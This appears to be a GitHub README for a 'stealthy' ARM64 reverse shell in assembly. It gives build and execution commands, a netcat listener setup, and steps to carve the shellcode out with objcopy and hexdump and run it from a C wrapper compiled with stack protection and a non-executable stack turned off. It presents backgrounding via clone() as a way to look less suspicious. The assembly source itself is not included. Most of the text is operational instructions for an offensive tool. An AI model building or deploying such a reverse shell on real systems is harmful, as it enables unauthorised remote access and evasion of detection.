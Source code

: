 # ARM-Shellcode 🐚
ARM AARCH64 Reverse Shell.
![image](https://github.com/0xXyc/ARM-Reverse-Shell/assets/42036798/ed56e21b-a27d-40a6-80c7-c14df6705c70)

## Capabilities
A small, stealthy, ARM64 reverse shell that utilizes `clone()`, similar to `fork()`, in order to spawn a child process and run in the background. Ultimately to look less suspicious.

# Compiling 🛠️
## Linux/AARCH64 as a guest OS on a MAC or other ARM-based device
`as arm-revshell.s -o arm-revshell+clone.o && ld -N arm-revshell+clone.o -o arm-revshell`

### Begin a Netcat Listener 
`nc -lnvp 1337`

### Execute

Then, run `./arm-revshell+clone` to execute.

## x86-64 host OS, but you want to run/compile for AARCH64
`aarch-linux-gnu-as arm-revshell+clone.s -o arm-revshell+clone.o && aarch-linux-gnu-ld -N arm-revshell+clone.o -o arm-revshell+clone`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute
Then, run `qemu-aarch64 ./arm-revshell+clone` to execute.`

## Utilizing the Shellcode "Wrapper"
This is to show you that we can achieve the same cyber result, just in a different executable format. It also goes to show how easily it is to "fit" shellcode into places.

**First, we must use `objcopy` to save the binary object to a `.bin` file so we can convert it into an easily copiable format:**
`objcopy -O binary arm-revshell+clone arm-revshell+clone.bin`

**Then, we need to utilize `hexdump` to "carve" out the shellcode from the binary object:**
`hexdump -v -e '"\\""x" 1/1 "%02x" ""' arm-revshell+clone.bin > shellcode.txt`

Lastly, we need to copy the contents of `shellcode.txt` into the `shellcode[]` buffer, within the `shellcode-exec.c` file.

### Compile the "Wrapper"
`gcc shellcode-exec.c -o shellcode-exec -z execstack -fno-stack-protector`

## Reverse Shell Time!!!
We can now easily call our shellcode within a C program.

**Start a Netcat Listener:**
`nc -lnvp 1337`

**Execute the program:**
`./shellcode-exec`

**CONGRATS, SHELLCODE EXECUTED! ENJOY!**


